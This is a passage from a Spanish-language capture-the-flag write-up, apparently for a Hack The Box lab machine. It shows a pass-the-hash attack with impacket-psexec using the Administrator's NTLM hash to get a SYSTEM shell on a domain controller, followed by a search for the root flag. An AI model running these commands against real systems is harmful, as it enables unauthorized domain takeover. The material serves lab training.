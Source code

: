 ### Ejecución remota como _NT AUTHORITY\SYSTEM_ usando `psexec` (Abuso total del dominio)

Una vez obtenido el **NT hash del usuario `Administrator`**, procedimos a abusar completamente del dominio a través de una shell remota como **NT AUTHORITY\SYSTEM**, el nivel más alto de privilegio en Windows.

Para lograr esto, utilizamos el módulo `psexec.py` de **Impacket** con el siguiente comando:

```bash
─(pywisker)─(kali㉿kali)-[~/pywhisker/pywhisker]
└─$ impacket-psexec sequel.htb/administrator@10.10.11.51 -hashes aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.11.51.....
[-] share 'Accounting Department' is not writable.
[*] Found writable share ADMIN$
[*] Uploading file ZliejeoO.exe
[*] Opening SVCManager on 10.10.11.51.....
[*] Creating service HsZa on 10.10.11.51.....
[*] Starting service HsZa.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.6640]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Este comando hace lo siguiente:

- Se autentica contra el host `10.10.11.51` utilizando el hash NTLM del usuario `Administrator`.
- Busca un recurso compartido con permisos de escritura (en este caso `ADMIN$`) para subir un binario temporal.
- Crea un servicio remoto para ejecutar dicho binario.
- Inicia el servicio, lo que nos proporciona acceso remoto con privilegios **SYSTEM**.

 **Resultado exitoso**: obtuvimos una shell remota en el controlador de dominio con acceso total:

# ROOT FLAG

Bueno muchachos ahora solo queda buscar la root flag para eso ejecutaremos el comando `C:\Windows\system32> cd C:\Users\Administrator\Desktop` Con este comando nos moveremos al escritorio, posterior a eso ejecutaremos el siguiente comando 

```bash
C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 3705-289D

 Directory of C:\Users\Administrator\Desktop

01/04/2025  08:58 AM    <DIR>          .
01/04/2025  08:58 AM    <DIR>          ..
04/29/2025  07:47 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,719,753,728 bytes free

```
